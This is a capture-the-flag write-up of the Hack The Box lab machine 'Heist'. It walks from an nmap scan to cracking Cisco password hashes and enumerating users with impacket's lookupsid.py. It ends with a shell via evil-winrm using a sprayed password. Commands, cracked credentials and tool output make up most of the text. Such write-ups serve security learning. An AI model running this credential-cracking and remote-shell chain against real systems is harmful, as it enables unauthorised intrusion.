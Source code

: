 <center><h1>Heist</h1></center>
<br>

Start with an Nmap scan

```
# nmap -sV -sC -T4 -p- 10.10.10.149
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-26 12:51 EDT
Nmap scan report for 10.10.10.149
Host is up (0.055s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49668/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1m55s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-10-26T16:55:36
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.84 seconds
```
Next I take a look at port 80. We are greeted with a login page. I try some basic logins and get nothing so I click on "Login as guest". There I see a conversation between a user ```Hazard``` and ```Admin```. There is also and file attachment. Clicking on the reveals the following cisco configuration file.

<center><img src="/htb/heist/cisco.png"></center>

From this configer file we can gather 2 username and 3 hashed passwords. We can crack the two passwords for ```rout3r``` and ```admin``` using any cisco 7 password cracking website. The other 3rd hash we can use hashcat to crack.
```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent     
0242114B0E143F015F5D1E161713:$uperP@ssword
02375012182C1A1D751618034F36415408:Q4)sJu\Y8qz*A3?d
```
Now that In have some usernames and passwords, I am going to use impackets ```lookupsid.py``` script to hopefully get some more useful information. This script basically allows you to bruteforce the Windows SID through MSRPC Interface, aiming at finding remote users/groups. Using the script gives me even more usernames
```
# ./lookupsid.py workgroup/hazard:stealth1agent@10.10.10.149
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
Now with all these Users/Passwords, I am going to use a tool called ```evil-winrm``` to get a shell on the machine. I just tried each user/pass combo until one worked.
```
# ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v1.8

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents>
```
Now I can grab the user flag located it ```C:\Users\Chase\Desktop```
```
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
a127daef77ab6d9d****************
```

